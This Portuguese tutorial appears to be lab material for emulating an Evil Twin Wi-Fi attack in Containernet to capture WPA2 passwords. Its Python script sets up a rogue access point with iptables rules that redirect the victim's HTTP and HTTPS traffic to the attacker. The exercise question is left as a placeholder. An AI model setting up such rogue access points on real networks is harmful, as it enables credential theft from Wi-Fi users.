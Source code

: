 ************
Evil Twin Attack
************


Hackeando a senha de Wi-Fi WPA2 usando Evil Twin Attack | DNSMASQ e Hostapd
-------------

.. image:: https://github.com/ramonfontes/sphinx_rtd_theme/blob/master/docs/imgs/evil-twin.png?raw=true

.. Note::
  **Neste documento você irá compreender como realizar o ataque denominado de  Evil Twin Attack**
  
  **Requisitos:** 
  
  - Containernet - https://github.com/ramonfontes/containernet
  - Hostapd

  **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi possui todos os recursos necessários para reproduzir este documento.**

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

.. code:: python

 #!/usr/bin/python

 '''@author: Ramon Fontes
    @email: ramon.fontes@imd.ufrn.br'''

 from containernet.net import Containernet
 from containernet.node import DockerSta
 from mininet.log import setLogLevel, info
 from containernet.cli import CLI
 from containernet.term import makeTerm


 def topology():
     "Create a network."
     net = Containernet()

     info("*** Creating nodes\n")
     sta1 = net.addStation('sta1', ip='0/0')
     sta2 = net.addStation('sta2')
     ap1 = net.addAccessPoint('ap1', ssid="simplewifi", mode="g", channel="1",
                              failMode="standalone", datapath='user')
     ap2 = net.addStation('ap2', cls=DockerSta, dimage="ramonfontes/rogue-ap", cpu_shares=20)

     info("*** Configuring wifi nodes\n")
     net.configureWifiNodes()

     info("*** Associating Stations\n")
     net.addLink(sta2, ap1)

     info("*** Starting network\n")
     net.build()
     ap1.start([])

     ap2.setMasterMode(intf='ap2-wlan0', ssid='simplewifi', channel='1', mode='g')
     #ap2.cmd('pkill -f \"ap2-wlan0.apconf\"')
     ap2.cmd('ifconfig ap2-wlan0 up 192.168.190.1 netmask 255.255.255.0')

     #ap2.cmd('iptables --flush')
     ap2.cmd('iptables --table nat --append POSTROUTING --out-interface ap2-eth1 -j MASQUERADE')
     ap2.cmd('iptables --append FORWARD --in-interface ap2-wlan0 -j ACCEPT')
     ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.190.1:80')
     ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination 192.168.190.1:80')
     ap2.cmd('iptables -t nat -A POSTROUTING -j MASQUERADE')
     ap2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

     sta1.cmd('ifconfig sta1-wlan0 192.168.190.2/24')
     sta1.cmd('route add default gw 192.168.190.1')

     info("*** Running CLI\n")
     CLI(net)

     info("*** Stopping network\n")
     net.stop()


 if __name__ == '__main__':
     setLogLevel('info')
     topology()
```

Considerando que o código acima tenha sido salvo em um arquivo com nome `evil-twin-attack.py`, execute-o conforme abaixo:

.. code:: console

    sudo python evil-twin-attack.py
    
De acordo com a topologia acima, `sta1` deverá estar conectado ao ponto de acesso `ap1`. Voce pode confirmar esta afirmação utilizando o comando abaixo:

.. code:: console

    sta1 iw dev sta1-wlan0 link
    
Na topologia do código acima, `sta1` seria a vítima e `sta2` o atacante. Além disso, o ponto de acesso `ap1` seria o ponto de acesso real e o ataque seria feito através do ponto de acesso `ap2`.

.. code:: console

    sta1 iw dev sta1-wlan0 link
    
    
.. admonition:: Perguntas

    -Q1. XXXXX
